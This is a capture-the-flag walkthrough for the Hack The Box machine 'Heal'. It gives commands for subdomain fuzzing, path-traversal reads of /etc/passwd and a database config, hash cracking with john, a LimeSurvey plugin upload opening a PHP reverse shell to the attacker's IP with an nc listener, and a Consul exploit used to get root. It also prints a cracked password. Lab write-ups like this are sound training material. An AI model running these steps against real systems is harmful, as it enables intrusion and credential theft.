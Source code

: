 **NOTES:**

VPN 10.10.11.46

1.  Add **heal.htb** to **/etc/hosts** file **RUN:** **sudo nano
    /etc/hosts**

2.  RUN: **Nmap -sV -Pn heal.htb**

Ports found: 22, 80

![](Heal/media/image1.png)

3.  **SUBDOMAIN-FUZZING**

RUN: **ffuf -w
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
http://monitorsthree.htb -H \"Host:FUZZ.monitorsthree.htb\" -ac**

![](Heal/media/image2.png)

4.  Add **api.heal.htb** to **/etc/hosts** file

![](Heal/media/image3.png)

5.  Open in Browser: heal.htb

- Register a USER

- After that, check the survey button, hover over TAKE THE SURVEY (There
  is a hidden URL)

![](Heal/media/image4.png)

![](Heal/media/image5.png)

6.  [Add to **take-survey.heal.htb** to **/etc/hosts** file]{.mark}

7.  Open the hidden page

- Username **ralph** found

![](Heal/media/image6.png)

8.  Check hidden page. RUN: **dirsearch -u
    take-survey.heal.htb/index.php -t 50**

**Result**

![](Heal/media/image7.png)

**Opened**

![](Heal/media/image8.png)

9.  Go back to heal.htb/resume and login with your previously created
    account

10. Open Burpsuite and intercept the proxy

- Page loaded with INTERCEPT ON

![](Heal/media/image9.png)

- Result: 1 time forwarded. Send to Repeater

![](Heal/media/image10.png)

- Added Path traversal

**GET /download?filename=../../../../../etc/passwd HTTP/1.1**

![](Heal/media/image11.png)

- Search for HOME to find Users

![](Heal/media/image12.png)

Since we found that the website RUBY ON RAILS (api.heal.htb) used it, we
searched and got it's config file address

- Mod 1^st^ line: **GET /download?filename=../../config/database.yml
  HTTP/1.1**

- **Click Send**

![](Heal/media/image13.png)

Download sqlite3 file

![](Heal/media/image14.png)

11. Crack PASSWORD HASH

- Create a txt file with the HASH inside

![](Heal/media/image15.png)

- RUN: **john test.txt \--wordlist=/usr/share/wordlists/rockyou.txt**

![](Heal/media/image16.png)

- Login via SSH not possible

- Login with found credentials, **USER:** ralph **PASSWORD:** 147258369
  on

[**http://take-survey.heal.htb/index.php/admin/home.php**](http://take-survey.heal.htb/index.php/admin/home.php)

![](Heal/media/image17.png)

Website Verison, see below.

![](Heal/media/image18.png)

12. **LimeSurvey-RCE** (Find a script on Github)

<https://github.com/Y1LD1R1M-1337/Limesurvey-RCE>

![](Heal/media/image19.png)

- Download **config.xml** and **php-rev.php** in Kali VM

- Add **version 6.0** to **config.xml INFO: otherwise it won't work**

![](Heal/media/image20.png)

- Check your **Kali machine's IP-ADDRESS** (COMMAND: ifconfig)

![](Heal/media/image21.png)

- Put this IP in the **php-rev.php** script

**Result:**

![](Heal/media/image22.png)

- ZIP both files (config.xml and php-rev.php)

INFO: Open new Terminal in same directory as both files are located!

RUN: **zip zipname config.xml php-rev.php**

![](Heal/media/image23.png)

13. Upload zipname.zip + activate plugin

![](Heal/media/image24.png)

Click 3^rd^ step and select the file **zipname.zip**

![](Heal/media/image25.png)

Push INSTALL

![](Heal/media/image26.png)

![](Heal/media/image27.png)

Activate it

![](Heal/media/image28.png)

Activated

![](Heal/media/image29.png)

14. Start listener on Kali VM

RUN: **nc -lvnp 100**

![](Heal/media/image30.png)

15. To bounce shell, open this URL in Browser

**http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php**

**SUCCEEDED**

![](Heal/media/image31.png)

16. Change directory to /var/www/limesurvey/application/config

- RUN: cat config.php

**USER + PASSWORD FOUND**

This **PASSWORD** can be used with **USER= ron (SSH login works)**

![](Heal/media/image32.png)

**INFO:** There is only 1 ralph user in the table, his password is the
same as the hash above = 147258369

**There is nothing that can be used in the database**

17. User FLAG: Cat user.txt

![](Heal/media/image33.png)

**[PRIVILEGE ESCALATION]{.underline}**

1.  Transfer Linpeas.sh with SCP-COMMAND to SERVER and let it run.

2.  Start linpeas with: **./linpeas.sh**

![](Heal/media/image34.png)

3.  Port forwarding: RUN: **ssh -L 8500:127.0.0.1:8500 <ron@heal.htb>**

> ![](Heal/media/image35.png)

4.  Open website **http://127.0.0.1:8500**, check source code

**-Source code 1.19.2 found**

> ![](Heal/media/image36.png)

5.  Look for vulnerability <https://www.exploit-db.com/exploits/51117>

> Create exploit.py and put the script in

6.  Set NC listener to get bounce shell

**On Kali machine**:

RUN: **nc -lvnp 100**

> ![](Heal/media/image37.png)

7.  Send request to listener (to Kali VM)

> RUN (on Kali VM): **python exploit.py 127.0.0.1 8500 Kali-IP 100 0**
>
> ![](Heal/media/image38.png)

8.  Connection established. Found Root.txt

![](Heal/media/image39.png)
